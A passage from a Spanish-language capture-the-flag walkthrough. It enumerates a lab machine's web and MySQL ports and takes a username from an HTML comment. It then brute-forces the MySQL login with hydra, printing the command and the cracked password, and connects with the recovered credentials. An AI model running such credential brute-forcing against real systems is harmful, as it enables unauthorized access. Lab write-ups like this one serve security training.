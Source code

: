 Veremos en el puerto `80` que aloja una pagina web y algo mas interesante, tiene expuesto el puerto `3306` que corresponde con el de `MySQL`, por lo que vamos a enumerar estos dos puertos a ver que encontramos.

Si inspeccionamos la pagina del puerto `80` veremos la siguiente linea comentada:

```html
<!-- 
        I am Grooti...
        Creo que Rocket ha entrado a mi base de datos...
	
	
    -->
```

Vemos que nos esta proporcionando un nombre de usuario para `MySQL` llamado `Rocket` por lo que vamos a probar a lanzar una `fuerza bruta` a `MySQL` con `hydra` de esta forma:

## Hydra

```shell
hydra -l rocket -P <WORDLIST> mysql://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-28 07:01:14
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://172.17.0.2:3306/
[3306][mysql] host: 172.17.0.2   login: rocket   password: password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-28 07:01:16
```

Veremos que ha funcionado, por lo que vamos a conectarnos a la `DDBB` con dichas credenciales.

## MySQL

```shell
mysql -h <IP_ATTACKER> -u rocket -ppassword1 --ssl=0 
```

Info:

```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 80
Server version: 8.0.42-0ubuntu0.24.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```
